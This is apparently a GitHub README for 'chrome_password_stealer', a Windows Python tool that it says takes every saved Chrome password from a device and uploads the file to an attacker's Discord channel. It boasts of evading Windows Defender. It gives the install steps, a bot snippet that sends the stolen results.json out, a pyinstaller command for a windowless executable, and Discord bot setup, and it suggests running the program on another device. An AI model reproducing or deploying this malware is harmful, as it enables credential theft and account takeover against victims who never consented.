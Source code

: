 # chrome_password_stealer
This python script steals all the chrome password stored in a device and uploads them into a discord server. This program only works in windows and only for chrome. The windows defender doesn't detect it but maybe other programs can.
## instalation
Download or clone the repository and eecute this command to install all dependencies, if you want to compile to a exe file you will need to install pyinstaller too.
```bash
pip install -r requirements.txt
pip install pyinstaller
```
Before running the code you need to set up some variables
```bash
    @bot.event
    async def on_ready():#when the bot is ready sends the results file to the discord channel
        channel = bot.get_channel("YOUR CHANEL ID")
        if channel:
            await channel.send(file=discord.File('results.json'))
        await bot.close()
    bot.run('YOUR BOT TOKEN') 
```
You need to replace YOUR BOT TOKEN with your actual bot token from discord and YOUR CHANEL ID with the actual chanel id also from discord.

To compile to a .exe file run this command where the chrome.py file is stored
```bash
pyinstaller --onefile --windowed chrome.py
```
## Discord setup
First you need to enable the developer mode for discord. To do so you need to acces the configuration then advanced and enable the developer mode 
![Image of the option to enable](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/developer_mode.png)
Then you need to go to the https://discord.com/developers/ the discord theveloper portal and clic on new application
![Image of the app creation](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/app_creation.png)

Then you ned to navigate to the bot section and create a new bot and enable all types of intents and select administrator on the bot permission settings. Then save the changes.
![Image of the bot configuration](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/intents.png)
![image of the bot configuration](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/permissions.png)

Then renew the bot token and paste it into the code where indicated.
### Adding bot to server

Navigate tho the 0auth section and click on bot and then administrator. Once this done select Guild install in the list below. Copy the link and acces to it. Select the server you want to use and click on authorize.

After this is done go back to your discord app and copi the id of the chanel you want the bot to send the file. Do so by left click on the chanel and select copi chanel id.
Then paste the chanel id where indicated in the code.

## results
After you completed all the previous steps you can test the code by running it in your own computer or compiling it and running it in another device.